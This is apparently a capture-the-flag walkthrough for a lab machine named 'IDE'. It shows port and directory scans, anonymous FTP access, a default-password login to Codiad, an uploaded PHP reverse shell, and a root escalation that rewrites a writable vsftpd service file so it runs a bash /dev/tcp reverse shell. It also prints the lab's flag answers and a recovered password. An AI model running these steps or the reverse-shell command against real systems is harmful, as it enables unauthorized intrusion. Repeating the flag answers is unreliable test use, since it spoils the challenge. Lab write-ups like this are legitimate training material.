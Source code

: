 # IDE

* IP = 10.10.33.250

## Questions/Tasks:

* Firstly, we scan for any open ports:
```bash
nmap -sC -sV $IP
```
### Nmap Initial Scan Results:
```bash
PORT      STATE    SERVICE       VERSION
21/tcp    open     ftp           vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open     http          Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
264/tcp   filtered bgmp
1164/tcp  filtered qsm-proxy
1183/tcp  filtered llsurfup-http
1600/tcp  filtered issd
4006/tcp  filtered pxc-spvr
9090/tcp  filtered zeus-admin
10180/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* This brings us here when opened in browser:<br>
![Screenshot](./assets/1.png)
* Search for directories on the webpage using Gobuster:
```
gobuster -u "http://10.10.164.73/" -w common.txt
```
### GoBuster Scan Results:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2022/06/30 09:58:18 Finished
=====================================================

```
* On the other hand there is *Anonymous* login enabled over FTP server(Which helps to login with username as Anonymous and with no password)...Let's try that<br>
![Screenshot](./assets/2.png)
* Contents of the file `-`:
```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```
* At this moment I have no idea what that means😮‍💨😮‍💨, anyways let's keep the statement in mind and save for later use!!
* Let's note `john` and `drac` as usernames for possible brute force on the webpage.
* Since gobuster shows us nothing interesting, we try an all port scan on Nmap( Maybe it can find something on some other port)🤔
### Nmap All Port Scan Results:
* Using `-p-` and `-Pn` switches:
* Since it was taking wayy too long, I decided to stop the whole scan:<br>
![Screenshot](./assets/3.png)
* And searched only for ephemeral ports:<br>
![Screenshot](./assets/4.png)
* Finally we got **62337** as an open port.
* visit the webpage: http://IP:62337/ which looks like this:<br>
![Screenshot](./assets/5.png)
* Used a python [script](./script.py) to login, and got success in first try with Username as **john** and password as **password**
* After logging in:
![Screenshot](./assets/6.png)
* Searched for known exploits in <a href="https://www.exploit-db.com/">exploit-db</a> for **Codiad** and found some.
* Used a custom [script](./script.py) to upload a php reverse shell payload file
* Setup a netcat listener and run the script:<br>
![Screenshot](./assets/7.png)
* Navigate to */home/drac* we see the following contents:<br>
![Screenshot](./assets/8.png)
* Use the found password `Th3dRaCULa1sR3aL` it escalate privileges to **drac**
![Screenshot](./assets/9.png)

1. user.txt

**Ans-02930d21a8eb009f6d26361b2d24a466**

* Firstly check for `sudo -l` using the same password:<br>
![Screenshot](./assets/10.png)
* So, we can restart the vsFTPd service.
* Check the current status with `systemctl status vsftpd`:<br>
![Screenshot](./assets/11.png)
* See carefully that the service loads **/lib/systemd/system/vsftpd.service** as the service file
* Also notice that the file permissions are: `-rw-rw-r--` which means its readable and writable for the *drac* group ID
* User nano/vim/vi to edit the file:
* Modify the `ExecStart` value with `/bin/bash -c 'bash -i >& /dev/tcp/[YOUR IP]/[PORT] 0>&1'`
* Finally it must look like this:<br>
![Screenshot](./assets/12.png)
* Now setup another listener in your machine with specified port
* Restart the vsftpd service like this:<br>
![Screenshot](./assets/13.png)
* A root connection will be received:<br>
![Screenshot](./assets/14.png)

2. root.txt

**Ans-ce258cb16f47f1c66f0b0b77f4e0fb8d**
